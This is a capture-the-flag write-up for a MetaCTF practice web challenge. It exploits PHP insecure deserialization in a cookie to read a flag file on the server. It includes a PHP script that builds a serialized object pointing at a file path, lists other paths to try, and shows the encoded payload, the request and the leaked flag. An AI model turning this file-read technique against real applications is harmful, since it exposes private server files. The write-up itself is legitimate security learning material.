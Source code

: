 # Metactf practice challenges web-wirteup

## Challenges
# URL
http://1k3h22c9.chals.mctf.io/view.php
# Concept
This challenge reqiured us to upload images into a santa website but from the view.php source code when found unserailized image input.

# Method of solve
Understanding the Vulnerability 
View.php does this $imageObj = unserialize(base64_decode($_COOKIE['image_data']));
Then it calls:  
file_get_contents($imageObj->path)
# payload script to generate the base64 encoded string for image cookie
~~~
<?php
class Image {
    public $path = '/var/www/html/flag.txt'; // Common CTF flag location
    // Try also: 'flag.txt', 'flag.php', '/app/flag', etc.
}

$payload = serialize(new Image());
echo base64_encode($payload) . "\n";
?>
~~~
 Then run:
 php payload.php 
Tzo1OiJJbWFnZSI6MTp7czo0OiJwYXRoIjtzOjIyOiIvdmFyL3d3dy9odG1sL2ZsYWcudHh0Ijt9
Then add cookie in the website header:
~~~
http://1k3h22c9.chals.mctf.io/view.php?set_image=Tzo1OiJJbWFnZSI6MTp7czo0OiJwYXRoIjtzOjIyOiIvdmFyL3d3dy9odG1sL2ZsYWcudHh0Ijt9
~~~
After the flag is viewed from the view source
~~~
<body>
    <div class="view-container">
        <h1 class="mb-4">Photo Viewer</h1>
        <p class="mb-3">Enjoy this beautiful photo uploaded by our community members.</p>
        <div class="card">
            <div class='alert alert-warning'>The image cannot be displayed or contains errors.</div><pre class='hidden-content'>MetaCTF{ph3ar_d3s3rial1z3d_0bj3cts}
</pre>        </div>
        <a href="index.php" class="btn btn-secondary mt-3">Back to Gallery</a>
    </div>
</body>
</html>
~~~
